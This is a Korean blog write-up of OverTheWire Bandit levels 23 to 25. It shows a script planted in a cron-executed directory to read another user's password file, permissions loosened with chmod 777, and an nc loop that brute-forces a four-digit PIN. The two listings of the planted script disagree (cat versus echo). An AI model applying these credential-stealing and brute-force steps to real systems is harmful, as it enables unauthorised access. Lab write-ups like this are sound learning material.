```yaml
---
title: "OverTheWire Bandit Level 23 ~ 24 문제 풀이"
date: 2025-03-30 00:20:00 +0800
categories: [Wargame, Bandit]
tags: [cyber security, writeup, overthewire, bandit, linux]
description: OverTheWire Bandit 레벨 23에서 24까지 문제 풀이
---
```


# 문제 리스트
## Level 23 -> 24
[https://overthewire.org/wargames/bandit/bandit24.html](https://overthewire.org/wargames/bandit/bandit24.html)
### 문제 설명
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
### 문제 풀이
이번에도 이 전과 마찬가지로 cron 관련 문제이다.<br />
좀 할 것이 많은지 문제 설명부터 잔뜩 겁을 주고있는 것이 보인다.<br />
#### /etc/cron.d와 bandit24.sh 분석
```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
/etc/cron.d 디렉토리에 접근하면 역시나 bandit24 유저의 cronjob이 보인다.<br />
해당 파일을 살펴보면 주기적으로 어떤 코드가 실행되는지 볼 수 있는데 bandit24는 /usr/bin/cronjob_bandit24.sh 파일을 실행시킨다.<br />

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
해당 파일이 무엇을 수행하는지 알아보아야한다.<br />
코드를 보면, bandit24.sh는 /var/spool/bandit24/foo 라는 디렉토리에 있는 bandit23의 권한을 가지는 파일들을 모두 실행시키는 역할을 하는 것을 알 수 있다. 그리고 중간에 timeout 명령어를 사용해서 모든 파일들 각각의 수행 시간이 1분을 넘어가지 않도록 강제하고있다.<br />
#### /var/spool/bandit24/foo 파일 생성 테스트
```bash
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo

bandit23@bandit:/var/spool/bandit24/foo$ ls
ls: cannot open directory '.': Permission denied

bandit23@bandit:/var/spool/bandit24/foo$ vim sample.sh
#!/bin/bash

echo hello
```
우선 해당 디렉토리로 이동을 해서 ls 명령어를 수행해보았는데 권한이 막혀있다.<br />
그래서 혹시 파일 생성도 안되는지 궁금해서 vim을 이용해 샘플 쉘코드를 하나 작성하니 정상적으로 저장이 되는 것을 보니 쓰기 권한은 열려있는 듯 하다.<br />
#### bandit24 비밀번호 알아내기
```bash
bandit23@bandit:/tmp$ mkdir /tmp/tmp_pass
bandit23@bandit:/tmp$ mkdir /tmp/tmp_pass/bandit24
bandit23@bandit:/tmp$ cd /tmp/tmp_pass/bandit24
```
이런식으로 새로운 임시 디렉토리를 하나 만들어 준다. 다른 디렉토리에는 각종 권한이 부족하여 해당 문제를 풀이하는 데에 부적절할 것으로 보인다.<br />

```bash
# revealer.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp_pass/bandit24.txt
```
이런식으로 revealer.sh라는 파일 하나를 새로 만든 디렉토리에 작성한다.<br />

```bash
bandit23@bandit:/tmp/tmp_pass/bandit24$ cat revealer.sh
# revealer.sh
#!/bin/bash

echo /etc/bandit_pass/bandit24 > /tmp/tmp_pass/bandit24.txt

bandit23@bandit:/tmp/tmp_pass/bandit24$ ls -l revealer.sh
-rw-rw-r-- 1 bandit23 bandit23 87 Mar 30 14:10 revealer.sh
```
그런 다음에 해당 쉘 파일의 권한을 확인해보면 다른 유저가 실행할 수가 없는 것을 알 수 있다.<br />
우리가 작성한 이 파일은 bandit24가 cron으로 실행되는 코드가 될 것인데 bandit24 유저가 해당 파일을 실행할 권한이 없기 때문에 부여해주어야 한다.<br />

```bash
bandit23@bandit:/tmp/tmp_pass/bandit24$ chmod 777 revealer.sh

bandit23@bandit:/tmp/tmp_pass/bandit24$ ls -l revealer.sh
-rwxrwxrwx 1 bandit23 bandit23 87 Mar 30 14:10 revealer.sh
```
귀찮으니까 777 권한을 부여해주었다. 

```bash
bandit23@bandit:/tmp/tmp_pass/bandit24$ ls -al /tmp/tmp_pass
total 17016
drwxrwxr-x 3 bandit23 bandit23     4096 Mar 30 14:08 .
drwxrwx-wt 1 root     root     17412096 Mar 30 14:18 ..
drwxrwxr-x 2 bandit23 bandit23     4096 Mar 30 14:10 bandit24

bandit23@bandit:/tmp/tmp_pass/bandit24$ chmod o+w /tmp/tmp_pass

bandit23@bandit:/tmp/tmp_pass/bandit24$ ls -al /tmp/tmp_pass
total 17016
drwxrwxrwx 3 bandit23 bandit23     4096 Mar 30 14:08 .
drwxrwx-wt 1 root     root     17412096 Mar 30 14:19 ..
drwxrwxr-x 2 bandit23 bandit23     4096 Mar 30 14:10 bandit24
```
위에서 작성한 쉘 코드를 다시 살펴보면 bandit24 유저가 /tmp/tmp_pass라는 디렉토리에 bandit24.txt라는 파일을 생성한다. 그렇다는 것은 bandit24 유저가 /tmp/tmp_pass 디렉토리에 write 권한이 있는지 체크를 해야한다.<br />
현 상황에서는 없으니 `o+w` 권한을 부여해주었다.<br />

```bash
bandit23@bandit:/tmp/tmp_pass$ cp /tmp/tmp_pass/bandit24/revealer.sh /var/spool/bandit24/foo
```
이렇게 쉘 파일 작성과 모든 권한 문제가 해결됐으니 이제 이 파일을 /var/spool/bandit24/foo로 넘겨주면 bandit24의 cron에 의해 해당 파일이 자동으로 실행되면서 비밀번호를 담은 텍스트 파일이 /tmp/tmp_pass 디렉토리에 생성될 것이다.<br />

```bash
bandit23@bandit:/tmp/tmp_pass$ ls
bandit24  bandit24.txt

bandit23@bandit:/tmp/tmp_pass$ cat bandit24.txt
BANDIT24_PASSWORD
```
## Level 24 -> 25
[https://overthewire.org/wargames/bandit/bandit25.html](https://overthewire.org/wargames/bandit/bandit25.html)
### 문제 설명
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
### 문제 풀이
이번에는 이 전과는 다르게 아주 간단한 문제이다.<br />

로컬호스트의 30002 포트에 접속하여 4자리로 구성된 비밀번호를 입력하여 bandit25 비밀번호를 알아내는 문제이다.<br />

4자리 비밀번호로 0000부터 9999까지 하나씩 다 시도해보는 방식(Brute Forcing)을 사용하여 해결해야 한다.<br /> 우선 brute forcing 코드를 어떤 식으로 짜야할지 고민하기 위해 테스트 접속을 해보자.<br />
#### 테스트 접속
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
BANDIT24_PASSWORD 0123
Wrong! Please enter the correct current password and pincode. Try again.
```
해당 포트에 접속하면 pincode checker 프로그램의 안내 문구가 뜨고 입력 포멧을 알려준다.<br />
bandit24의 비밀번호와 4자리 pincode를 입력하면 되고 두 비밀번호는 스페이스로 구분하면 된다고 한다. 아무 비밀번호나 입력해보니 틀렸다는 문구가 뜬다.<br />

이제 어떻게 어떻게 입력해야하는지 알아냈으니 코드를 짜보자.
#### 최종 코드
```bash
bandit24@bandit:~$ for pin in $(seq -w 0000 9999); do     
echo "BANDIT24_PASSWORD $pin"; 
done | nc localhost 30002
```
이런식으로 0000부터 9999까지 하나하나 시도하는 코드를 작성하여 그대로 실행하면 순식간에 코드가 실행되면서 올바른 pincode가 입력됐을 때 bandit25의 비밀번호가 출력되는 것을 확인할 수 있다.
# 배운 것
이번 챌린지들을 도전하면서 shell 코드의 기본적인 구조나 변수 사용법 등을 익힐 수 있었다.